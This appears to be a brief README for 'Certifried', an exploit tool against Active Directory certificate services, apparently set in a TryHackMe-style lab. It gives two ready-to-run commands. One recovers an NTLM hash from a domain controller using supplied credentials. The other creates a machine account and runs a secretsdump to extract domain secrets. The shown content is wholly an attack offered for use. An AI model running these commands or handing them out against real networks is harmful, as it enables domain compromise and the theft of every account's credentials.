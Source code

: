 # Certifried 

## Usage
1. Recover NTLM hash
```
python3 certifried.py lunar.eruca.com/thm:'Password1@' -dc-ip 10.10.154.229 -use-ldap
```
2. Proceed with secretsdump
```
python3 certifried.py lunar.eruca.com/thm:'Password1@' -dc-ip 10.10.154.229 -computer-name Aniq9 -computer-pass 'Password123' -use-ldap -dump
```
